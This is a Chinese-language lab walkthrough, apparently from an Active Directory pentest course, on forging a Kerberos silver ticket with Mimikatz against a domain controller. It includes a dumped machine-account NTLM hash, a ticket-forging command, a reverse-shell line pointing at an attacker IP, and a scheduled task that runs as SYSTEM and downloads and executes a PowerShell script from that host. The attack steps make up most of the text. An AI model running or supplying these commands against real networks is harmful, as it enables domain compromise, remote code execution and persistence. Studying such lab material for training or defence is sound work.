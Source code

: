 

这一节是制作银票。

金票和银票的分别
> 1.金票伪造的TGT(Ticket GrantingTicket)，所以可以获取任何Kerberos服务权限
> 2.银票是伪造的TGS的TS，只能访问指定的服务权限
> 3.GoldenTicket是由krbtgt的hash加密
> 4.Silver Ticket是由服务账户（通常为计算机账户）hash加密
> 5.GoldenTicket在使用的过程需要同域控通信
> 6.Silver Ticket在使用的过程不需要同域控通信

上面我们已经知道了DCORP-DC$的哈希，
```
RID  : 000003e8 (1000)
User : DCORP-DC$
LM   :
NTLM : 126289c16302fb23b71ec09f0d3d5391
```
可以用来制作银票

```
Invoke-Mimikatz -Command '"kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /target:dcorp-dc.dollarcorp.moneycorp.local /service:HOST /rc4:126289c16302fb23b71ec09f0d3d5391 /user:Administrator /ptt"'
```



![image-20220306205608943](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20220306205608943.png)



打开Invoke-PowerShellTcp.ps1这个文件，在文件最低端加一行代码

```
Power -Reverse -IPAddress 172.16.100.66 -Port 443
```



![image-20220306205738398](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20220306205738398.png)

表示调用自己

新开一个shell，开启监听

![image-20220306210128953](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20220306210128953.png)



在银票shell下制作一个定时任务

```
schtasks /create /S dcorp-dc.dollarcorp.moneycorp.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "User3666" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://172.16.100.66/Invoke-PowerShellTcp.ps1''')'"
```



触发定时任务
